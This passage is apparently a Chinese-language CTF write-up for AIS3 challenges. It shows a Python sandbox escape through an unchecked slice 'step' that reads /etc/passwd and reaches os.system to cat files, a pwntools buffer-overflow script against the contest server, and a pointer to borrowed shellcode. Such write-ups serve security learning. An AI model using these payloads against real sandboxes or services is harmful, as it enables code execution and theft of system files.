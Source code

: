 第一個filter在仔細對照文件之後可以看到有問題的一行:

```
elif isinstance(node, ast.Slice):
            return traverse(node.lower) and traverse(node.upper)
------
Slice(expr? lower, expr? upper, expr? step)
```

Slice (list 的 index) 的部份它少檢查到step, 也就是python iterable裡頭少見的第三項，寫法像是這樣: `"abcdefg"[::2] -> 'aceg'`。總之我們可以測試這個東西有沒有辦法拿來用：

```
>>> [1][::print(open('/etc/passwd').read())]
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
(略)
```

然後發現可以，所以接下來我們可以透過一般繞過關鍵字的方法來想辦法戳出flag:

```
[1][::print(list(enumerate(''.__class__.__mro__[-1].__subclasses__())))]
[1,2,3][1:2:print(''.__class__.__mro__[-1].__subclasses__()[138])] --> <class 'os._wrap_close'>
[1,2,3][1:2:print(''.__class__.__mro__[-1].__subclasses__()[138].__init__.__globals__['system']('cat /home/ctf/*'))]
```

Flag: `AIS3{1s_thi5_k1nd_0f_sp0t_th3_d1ff3renc3_g4me?}`

References: https://www.gushiciku.cn/pl/2F7p/zh-tw

----
# Pwn

## BOF2WIN

基本的Binary overflow題。

```python
from pwn import *
r = remote('chals1.ais3.org', 12347)
r.recvuntil("What's your name?")
target_addr = p64(0x401216)
r.sendline(b'A'*24+target_addr)
r.interactive()
```

Flag: `AIS3{Re@1_B0F_m4st3r!!}`

## Give Me SC

題目正如字面上的意思一樣，你給它一些字元，它就會把它當function執行。我的shell code是從這裡偷過來ㄉ：https://www.exploit-db.com/exploits/47048

